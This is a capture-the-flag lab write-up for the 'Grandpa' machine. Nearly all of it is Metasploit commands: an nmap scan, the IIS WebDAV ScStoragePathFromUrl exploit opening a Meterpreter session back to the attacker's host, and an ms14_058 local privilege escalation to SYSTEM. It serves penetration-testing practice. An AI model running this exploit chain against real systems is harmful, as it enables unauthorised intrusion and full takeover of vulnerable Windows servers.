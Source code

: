 ```yaml
---
cover: ../../../.gitbook/assets/Grandpa.png
coverY: 255.85066666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Grandpa

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a grandpa
msf6> setg rhosts 10.129.95.233
msf6> setg lhost 10.10.14.61
msf6> db_nmap -sV -sC -O 10.129.95.233
```

<figure><img src="../../../.gitbook/assets/001.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> search type:exploit name:iis
msf6> use exploit/windows/iis/iis_webdav_scstoragepathfromurl
msf6> run

meterpreter> sysinfo  # throw error
# CTRL+Z

msf6> use multi/recon/local_exploit_suggester
msf6> set session 1
msf6> run
```

<figure><img src="../../../.gitbook/assets/002.png" alt=""><figcaption></figcaption></figure>

```bash
msf6> use exploit/windows/local/ms14_058_track_popup_menu
msf6> set session 1
msf6> set lport 4445
msf6> run

meterpreter> getuid  # NT AUTHORITY\SYSTEM
```
